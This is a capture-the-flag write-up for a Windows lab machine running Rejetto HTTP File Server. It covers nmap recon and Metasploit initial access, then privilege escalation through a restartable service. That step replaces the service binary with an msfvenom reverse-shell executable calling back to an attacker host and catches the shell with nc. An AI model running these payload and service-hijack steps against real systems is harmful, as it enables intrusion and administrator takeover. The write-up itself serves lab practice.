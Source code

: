 #### Background
This `CTF` involves enumerating a Windows machine, gain initial access with `Metasploit` and escalate privilege to Administrator

### Recon
- `nmap -sV` enumeration, identifying service along with their version 
- ` Rejetto HTTP File Server` was the file server that's running
### Initial access
- find for a vulnerability that lead us to get initial access to the machine on `metasploit` 
- set the `RHOST` to the target machine and run the exploit
### PrivEsc
- `powerup` is a `powershell` script that evaluate a windows machine for any misconfiguration and abnormalities. 
- load `powerup` script to the machine via `meterpreter` 
  ```zsh
  upload path_to_the_script_file
```
[more on meterpreter commands](https://medium.com/@msbj/decoding-meterpreter-commands-dca5bd25873f)

- load `powershell` into meterpreter, then get into it, by using `powershell_shell` command
- run the `powerup` script you uploaded, 
  ```zsh
  . .\powerUp.ps1
```
assuming that's how you named the script
- invoke the scan
  ```zsh
  Invoke-AllChecks
```

- Found a service whose `CanRestart` value is set to `True` and it was `_AdvancedSystemCareService9_`
- generate a reverse shell as an window executable
  ```zsh
  msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip> LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe
```
- upload the reverse shell via meterpreter
- now enter to a `shell`
- stop the service identified to be vulnerable by
  ```powershell
  sc stop AdvancedSystemCareService9
```
- change the file it uses for operation, _the location could be found from the initial scan_, by the reverse shell you just generated. 
  ```powershell
  copy ASCService C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
```

- start listening from local machine
  ```zsh
  nc -lvnp 4443
```
- start the service back
  ```powershell
  sc start AdvancedSystemCareService9
```
Hollaaa! Now you gotta get the Admin shell from you local machine...
#### Without Meterpreter
- download the exploit from `exploit.db`
- edit the port and IP in the script, the attacker IP being your machine IP
- add 8000 port to the `ip_adddr` variable of `local_port` 
- download the netcat static binary
- server the binary via `python3 -m http.server 8000`
- start listening `nc -lvnp 443`
- run the exploit with the correct argument 
  ```zsh
  python2 exploit.py target_ip 8080
```
